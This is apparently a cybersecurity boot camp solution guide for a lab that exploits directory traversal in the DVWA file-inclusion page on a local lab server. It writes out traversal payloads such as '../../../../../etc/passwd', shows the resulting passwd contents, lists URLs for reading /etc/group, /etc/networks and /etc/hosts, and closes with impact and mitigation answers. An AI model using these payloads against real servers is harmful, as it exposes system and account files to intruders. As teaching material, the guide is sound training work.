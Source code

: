 ## Solution Guide: Directory Traversal 

In this activity, you were tasked with testing the intended purpose of an application to view back-end files from the web application's server. You were then tasked with manipulating the URL with the dot-slash technique to view confidential and hidden files on the web application server.

---

1. Test the intended use of the web application.

    - View the contents of `file1.php`.
      
      - Select the link to `file1.php`, and note the following:
      
          - The URL changes to <http://192.168.13.25/vulnerabilities/fi/?page=file1.php>.
          
          - Note that the parameter references the file that was selected: `?page=file1.php`.
        
          - The content on the webpage was displayed:
      
              `Hello admin
              Your IP address is: 192.168.13.1`
          
      - Select the other links (`file2.php` and `file3.php`) and note their URL and webpage changes.
      
      - Note that the intended purpose of this application is to provide a user access to those three files only. 

2. On Vagrant, open the terminal. 

      - Connect to the container of the Replicants webpage:

        - `docker exec -it dvwa bash`
      
      - Once you have connected to the container, run the following command to access the directory where `file1.php`, `file2.php`, and `file3.php` are located:

        - `cd /var/www/html/vulnerabilities/fi`

      - View the files in this directory using the `ls` command.

        - Note that you should see the files `file1.php`, `file2.php`, and `file3.php`.

      - View the contents at the top of `file2.php`:
        
        -  `head file2.php`
      
        - Note how this file contains HTML that matches what you saw on the Replicants website when you clicked on `file2.php`:
          
          - `<em>I needed a password eight characters long so I picked Snow White and the Seven Dwarves.</em>\" ~ Nick Helm<br /><br />`

        - Take note of the other `file<#>.php` file located in this directory. 

    - **Solution**: The other `file<#>.php` file located in this directory is `file4.php`.
 
3. Test the unintended consequences of this application.
 
    - We saw another `file<#>.php` file in that directory. That file does not have a link to access on Replicant's webpage. Try to access it by modifying the parameter of the URL.

      - **Solution**: To view `file4.php`, change the URL to <http://192.168.13.25/vulnerabilities/fi/?page=file4.php>.

      - The parameter changed to `?page=file4.php`.
        
      - The webpage will display the following message:
          
            File 4 (Hidden)
            Good job!
            This file isn't listed at all on DVWA. If you are reading this, you did something right ;-)
          
4. Traverse through other paths. 

    - In Part 3, you modified the parameter of the URL to view a hidden file. Try to access the `passwd` file by modifying the parameter of the URL again.

    - **Solution**: To view the `passwd` file, you need to use the dot-slash method.
      
      - First we need to determine how many directories back the top of the directory structure is. Because the files are located in `/var/www/html/vulnerabilities/fi#`, they are five files deep.

        - To go back five directories, we use the dot-slash method five times. Then we go forward to access the `/etc/passwd` file:

          - `../../../../../etc/passwd`

        - The complete URL will look like the following, when we place the payload as the parameter: <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/passwd>.

      - This will display the `/etc/passwd` file at the top of the page:

          ```
            root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin       sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin _apt:x:100:65534::/nonexistent:/bin/false mysql:x:101:101:MySQL Server,,,:/nonexistent:/bin/false
        ```

      - Note that if we don't know how many directories back to go, we keep testing payloads until we see the `passwd` file. For example: 

        -  `../etc/passwd`

        -  `../../etc/passwd`

        - `../../../etc/passwd`

        - `../../../../etc/passwd`

5. **Bonus**: Previously, you were modified the URL to view the file `passwd`. Try to access other files (such as the hosts, group, or networks) using the same techniques.

    - If you can access the files, research online and document what data those files contain.

    - **Solution**: To view the files for hosts, group, or networks, you need to use the same dot-slash method.

      - The URLs for each of these are as follows:

        - <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/group>
      
        - <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/networks>
      
        - <http://192.168.13.25/vulnerabilities/fi/?page=../../../../../etc/hosts>
        
      - These files contain the following information:

        - `group`: Contains all the groups and members for that linux server.

        - `networks`: Translates IP addresses to network names.
        
        - `hosts`: Maps host names to IP addresses.
      
6. Answer the following mitigation strategy questions: 

    - Describe to your management how a malicious user could take advantage of the vulnerabilities that you just exploited. Be sure to include the potential impact.

        - Impacts could include:

          - Display of confidential data such as user information, system accounts, services being ran, networking information (IP Addresses).

          - All of the confidential information could be used to apply other types of attacks.

    - Describe how you would mitigate the vulnerabilities you just exploited.

      - Mitigation options can include:

        - Server-side validation that does not allow selection of unintended files.

        - Segregation of confidential files from the web server and accessible directories.

        - Permissions to restrict web server account accessibility.
        
      - Refer to the following page for a more comprehensive list of directory traversal mitigations: 

        - [Hacksplaining: Preventing Directory Traversal](https://www.hacksplaining.com/prevention/directory-traversal)    

  
___

© 2022 edX Boot Camps LLC. Confidential and Proprietary. All Rights Reserved. 
